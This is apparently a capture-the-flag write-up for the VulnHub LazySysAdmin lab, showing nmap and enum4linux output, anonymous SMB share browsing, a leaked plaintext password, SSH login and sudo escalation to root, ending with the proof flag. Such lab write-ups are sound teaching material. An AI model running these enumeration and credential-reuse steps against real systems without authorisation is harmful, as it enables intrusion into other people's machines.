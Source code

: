 LazyAdmin: 1 write-up


scan host:

nmap -sV -A -sC -p- 192.168.2.90

nmap result:

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|_  256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.2.38
|_  error: Closing link: (nmap@192.168.2.38) [Client exited]
Service Info: Host: Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN
|   Domain name: 
|   FQDN: lazysysadmin
|_  System time: 2017-11-01T04:00:05+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol



enum smb: using enum4linux tool (./enum4linux.pl -U 192.168.2.90)

from enum result see a user on the system: togie


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)


also smb shares:


 ========================================= 
|    Share Enumeration on 192.168.2.90    |
 ========================================= 
WARNING: The "syslog" option is deprecated
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	share$          Disk      Sumshare
	IPC$            IPC       IPC Service (Web server)

	Server               Comment



connect to smb share:


smbclient //192.168.2.90/share$


see file list:


smb: \> 
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Oct 31 13:49:52 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017




Open deets.txt in browser: http://192.168.2.90/deets.txt
"
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
"


login to system over ssh with user:togie and password: 12345


togie user in sudories so just execute sudo su to become a root user:


get proof.txt in root:


WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/lazysysadmin-1/proof.png)